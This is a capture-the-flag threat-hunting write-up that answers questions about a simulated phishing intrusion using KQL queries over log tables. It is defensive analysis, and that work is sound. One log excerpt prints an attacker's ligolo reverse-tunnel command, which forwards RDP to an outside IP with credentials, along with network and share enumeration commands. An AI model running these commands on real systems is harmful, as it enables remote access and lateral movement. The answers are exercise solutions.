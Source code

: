 - How many Craftperson Elf's are working from laptops? ```25```
```Kql
Employees 
| where role has "Craftsperson Elf" 
| where hostname has "LAPTOP"
| count
```
---------------
- What is the email address of the employee who received this phishing email? ```alabaster_snowball@santaworkshopgeeseislands.org```
- What is the email address that was used to send this spear phishing email? ```cwombley@gmail.com```
- What was the subject line used in the spear phishing email? ```[EXTERNAL] Invoice foir reindeer food past due```
```Kql
Email
| where link has "http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx"
```
---------------
- What is the role of our victim in the organization? ```Head Elf```
- What is the hostname of the victim's machine? ```Y1US-DESKTOP```
- What is the source IP linked to the victim? ```10.10.0.4```
```Kql
Employees
| where email_addr == "alabaster_snowball@santaworkshopgeeseislands.org"
```
---------------
- What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs! ```2023-12-02T10:12:42Z```
- What file is dropped to Alabaster's machine shortly after he downloads the malicious file? ```giftwrap.exe```
---------------
```Kql
FileCreationEvents
| where hostname == "Y1US-DESKTOP"
| sort by timestamp
```
---------------
- The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to? ```113.37.9.17```
- What is the timestamp when the attackers enumerated network shares on the machine? ```2023-12-02T16:51:44Z```
- What was the hostname of the system the attacker moved laterally to? ```NorthPolefileshare```
```Kql
ProcessEvents
| where hostname == "Y1US-DESKTOP"
| where timestamp >= datetime("2023-12-02T10:12:42Z")
| where parent_process_hash == "614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f"
```
```
"ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof
netstat
ipconfig
arp -a
netstat -an
nbtstat-n
net view /DOMAIN
net share
net use
net config
systeminfo
"C:\Users\alsnowball\AppData\Local\Microsoft\Teams\current\Teams.exe" --type=relauncher --no-sandbox --- 
```
---------------
- When was the attacker's first base64 encoded PowerShell command executed on Alabaster's machine? ```2023-12-24T16:07:47Z```
- What was the name of the file the attacker copied from the fileshare? (This might require some additional decoding) ```NaughtyNiceList.txt```
- The attacker has likely exfiltrated data from the file share. What domain name was the data exfiltrated to? ```giftbox.com```
